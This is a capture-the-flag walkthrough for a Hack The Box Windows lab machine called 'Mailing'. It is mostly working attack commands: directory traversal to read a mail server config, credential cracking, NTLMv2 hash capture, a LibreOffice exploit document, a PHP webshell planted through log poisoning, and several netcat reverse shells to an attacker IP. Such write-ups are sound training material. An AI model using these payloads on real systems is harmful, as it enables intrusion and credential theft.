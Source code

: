 
**Machine Info:**

- Platform: [HTB](https://chatgpt.com/c/HTB)
- **IP**: `10.10.11.14`
- **OS**: [Windows](https://chatgpt.com/c/Windows)
- **Difficulty**: [Easy](https://chatgpt.com/c/Easy)
- **Exploits Used**:
    
    - File‑read/dir‑traversal via `download.php`
    - CVE‑2024‑21413 Outlook/Windows Mail NTLMv2 capture
    - WinRM & SMB auth bypass
    - CVE‑2023‑2255 LibreOffice document RCE
    - Log‑poisoning → webshell include → GodPotato
        

**Open Ports:**  
[SMTP](https://chatgpt.com/c/SMTP) 25/tcp  
[HTTP](https://chatgpt.com/c/HTTP) 80/tcp  
[POP3](https://chatgpt.com/c/POP3) 110/tcp  
[IMAP](https://chatgpt.com/c/IMAP) 143/tcp  [IMAPS](https://chatgpt.com/c/IMAPS) 993/tcp  
[SMTPS](https://chatgpt.com/c/SMTPS) 465/tcp  [Submission](https://chatgpt.com/c/Submission) 587/tcp  
[SMB](https://chatgpt.com/c/SMB) 445/tcp  
[WinRM](https://chatgpt.com/c/WinRM) 5985/tcp

**Tools:**  
nmap, ffuf, feroxbuster, curl, smbclient, netexec, Responder, crackstation, hashcat, swaks, smtplib, evil‑winrm, nc, PowerShell, LibreOffice

---

## Recon 🔍

```bash
nmap -p- --min-rate 10000 10.10.11.14
nmap -p 25,80,110,135,139,143,445,465,587,993,5040,5985 -sCV 10.10.11.14
ffuf -u http://10.10.11.14 -H "Host: FUZZ.mailing.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
feroxbuster -u http://mailing.htb -x php,aspx
```

---

## Shell as maya 🐚

1. **Dir‑Traversal File Read**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts'
    curl 'http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailServer/bin/hMailServer.ini'
    ```
    
2. **Crack hMailServer MD5** → `homenetworkingadministrator`
    
3. **SMTP Auth**
    
    ```bash
    swaks --auth-user 'administrator@mailing.htb' --auth LOGIN \
          --auth-password homenetworkingadministrator --quit-after AUTH --server mailing.htb
    ```
    
4. **CVE‑2024‑21413 NTLMv2 Capture**
    
    - Send malicious HTML email (Outlook/Windows Mail PoC)
        
    - Run Responder on tun0 → capture `maya` NTLMv2 hash
        
    - Crack with hashcat → `m4y4ngs4ri`
        
5. **SMB & WinRM Access**
    
    ```bash
    netexec smb mailing.htb -u maya -p m4y4ngs4ri  
    evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri  
    ```
    

---

## Shell as localadmin 👤

1. **Enumerate SMB Shares** → `Important Documents` (read/write)
    
2. **CVE‑2023‑2255 LibreOffice RCE**
    
    ```bash
    python CVE-2023-2255.py \
      --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.14.6 443' \
      --output exploit.odt
    smbclient '//mailing.htb/Important Documents' -U maya -P m4y4ngs4ri \
      -c 'put exploit.odt; put /opt/nc.exe/nc64.exe'
    ```
    
3. **Deliver & Execute**
    
    ```ps1
    copy "\\Important Documents\exploit.odt" C:\Users\maya\Desktop
    # Open in LibreOffice → reverse shell back to attacker
    ```
    

---

## Shell as defaultapppool 🌐

1. **Log‑Poisoning Webshell**
    
    ```bash
    telnet mailing.htb 25
    HELO <?php system($_REQUEST['cmd']); ?>
    ```
    
2. **Include via download.php**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../progra~2/hmailserver/logs/hmailserver_2024-09-05.log&cmd=\programdata\nc64.exe+10.10.14.6+443+-e+cmd.exe'
    ```
    
3. **Reverse Shell** → `iis apppool\defaultapppool`
    

---

## Shell as SYSTEM 👑

1. **GodPotato on SeImpersonatePrivilege**
    
    ```bash
    gp.exe -cmd "\programdata\nc64.exe -e cmd.exe 10.10.14.6 443"
    ```
    
2. **SYSTEM** → read `root.txt`
    

---

## Actions Learned 🎓

- Directory‐traversal to leak configs & source
    
- MD5 hash cracking for admin creds
    
- NTLMv2 capture via CVE‑2024‑21413 & Responder
    
- SMB/WinRM pivot with cracked creds
    
- LibreOffice macro RCE (CVE‑2023‑2255) via SMB share
    
- Log‑poisoning to plant PHP shell in hMailServer logs
    
- GodPotato exploitation of SeImpersonatePrivilege
    

---

## References 🔗

- CVE-2024-21413 Outlook/Windows Mail RCE PoC
    
- CVE-2023-2255 LibreOffice “floating frames” RCE
    
- hMailServer .ini format & defaults
    
- HackTricks: 7‑Zip/PowerShell wildcards & symlinks
    
- Responder & hashcat NTLMv2 cracking techniques